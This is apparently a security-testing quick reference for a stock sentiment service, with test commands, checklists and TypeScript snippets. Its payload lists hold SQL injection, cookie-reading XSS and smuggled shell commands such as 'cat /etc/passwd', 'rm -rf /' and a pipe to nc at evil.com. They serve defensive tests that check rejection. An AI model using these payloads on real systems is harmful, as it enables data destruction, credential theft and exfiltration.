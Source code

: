 # VFR Security Testing Quick Reference

## Test Execution Commands

```bash
# Run all SentimentAnalysisService security tests
npm test -- SentimentAnalysisService.security.test.ts

# Run specific OWASP category tests
npm test -- --testNamePattern="OWASP A03: Injection"

# Run with increased memory for security tests
npm test -- SentimentAnalysisService.security.test.ts --maxWorkers=1

# Generate security test coverage
npm run test:coverage -- --testPathPattern=security
```

## Key Security Validation Points

### Input Sanitization Checklist

- [ ] SQL injection prevention (`'; DROP TABLE users; --`)
- [ ] XSS prevention (`<script>alert("XSS")</script>`)
- [ ] Command injection prevention (`; cat /etc/passwd`)
- [ ] Path traversal prevention (`../../../etc/passwd`)
- [ ] NoSQL injection prevention (`{"$ne": null}`)

### API Key Security Checklist

- [ ] No API keys in console output
- [ ] No API keys in error messages
- [ ] No API keys in cache data
- [ ] No API keys in response data
- [ ] Production error message sanitization

### Rate Limiting Validation

- [ ] Minimum delays enforced between requests
- [ ] Concurrent request handling
- [ ] Rate limit state persistence
- [ ] Circuit breaker functionality

## Critical Security Test Patterns

### Console Output Monitoring

```typescript
// Capture and validate console output for sensitive data
const originalConsoleError = console.error;
const capturedLogs: string[] = [];

console.error = (...args: any[]) => {
	capturedLogs.push(args.join(" "));
};

try {
	// Test execution
	await sentimentService.analyzeStockSentimentImpact(maliciousInput, "Tech", 0.75);

	// Validate no sensitive data in logs
	const allLogs = capturedLogs.join(" ");
	expect(allLogs).not.toContain("api_key");
	expect(allLogs).not.toMatch(/[a-f0-9]{32}/); // NewsAPI key pattern
} finally {
	console.error = originalConsoleError;
}
```

### Injection Attack Testing

```typescript
// Comprehensive injection payload testing
const injectionPayloads = [
	"'; DROP TABLE users; --", // SQL injection
	'<script>alert("XSS")</script>', // XSS
	"AAPL; cat /etc/passwd", // Command injection
	"../../../etc/passwd", // Path traversal
	'{"$ne": null}', // NoSQL injection
];

for (const payload of injectionPayloads) {
	const result = await sentimentService.analyzeStockSentimentImpact(payload, "Tech", 0.75);
	expect(result).toBeNull(); // Should reject all malicious inputs
}
```

### Security State Validation

```typescript
// Monitor security state throughout testing
const initialState = SecurityValidator.getSecurityStatus();
// ... execute tests ...
const finalState = SecurityValidator.getSecurityStatus();
expect(typeof finalState).toBe("object");
expect(finalState.totalRequests).toBeGreaterThan(initialState.totalRequests);
```

## Test Data Sets

### Legitimate Stock Symbols

```typescript
const legitimateSymbols = ["AAPL", "MSFT", "GOOGL", "AMZN", "TSLA", "META", "NFLX"];
```

### Malicious Input Patterns

```typescript
const sqlInjection = [
	"'; DROP TABLE sentiment_data; --",
	"' UNION SELECT api_key FROM config; --",
	"'; DELETE FROM cache WHERE 1=1; --",
];

const xssPayloads = [
	'<script>alert("XSS")</script>',
	"<img src=x onerror=alert(document.cookie)>",
	'<iframe src="javascript:alert(1)"></iframe>',
];

const commandInjection = ["AAPL; cat /etc/passwd", "AAPL && rm -rf /", "AAPL | nc evil.com 1234"];
```

## Security Test Timing

### Rate Limiting Tests

```typescript
const startTime = Date.now();
// Execute multiple requests
const totalTime = Date.now() - startTime;
expect(totalTime).toBeGreaterThan(200); // Minimum delay enforced
```

### Timeout Security

```typescript
// Test with very short timeout to simulate attacks
const timeoutAPI = new NewsAPI(process.env.NEWSAPI_KEY, 50, false);
const result = await timeoutAPI.getNewsSentiment("AAPL", "1d");
// Should timeout quickly without hanging
```

## Environment-Specific Testing

### Development Mode

```typescript
process.env.NODE_ENV = "development";
// Detailed error messages allowed in dev
```

### Production Mode

```typescript
const originalNodeEnv = process.env.NODE_ENV;
process.env.NODE_ENV = "production";
try {
	// Test production error sanitization
} finally {
	process.env.NODE_ENV = originalNodeEnv;
}
```

## Security Test Maintenance

### Monthly Security Updates

1. Update injection payload patterns
2. Review OWASP Top 10 changes
3. Add new attack vectors from threat intelligence
4. Validate test coverage remains comprehensive

### Security Test Checklist

- [ ] All OWASP Top 10 categories covered
- [ ] Real data used (no mocks)
- [ ] API key protection validated
- [ ] Rate limiting enforced
- [ ] Error message sanitization working
- [ ] Cache security verified
- [ ] Input validation comprehensive
- [ ] Output sanitization complete

## Common Security Test Failures

### API Key Exposure

**Symptom**: Test fails with API key visible in logs
**Solution**: Enhance SecurityValidator.sanitizeErrorMessage()

### Rate Limiting Bypass

**Symptom**: Requests complete too quickly
**Solution**: Check rate limiting implementation in NewsAPI

### Injection Success

**Symptom**: Malicious input not rejected
**Solution**: Enhance input validation in SecurityValidator

### Cache Poisoning

**Symptom**: Sensitive data found in cache
**Solution**: Add sanitization before cache storage

## Security Testing Best Practices

1. **Always Use Real Data**: Never mock security-sensitive components
2. **Test Edge Cases**: Include boundary conditions and unusual inputs
3. **Monitor All Output**: Capture console, error, and response data
4. **Validate State Changes**: Ensure security state remains stable
5. **Test Under Load**: Validate security during concurrent requests
6. **Document Failures**: Record and analyze all security test failures
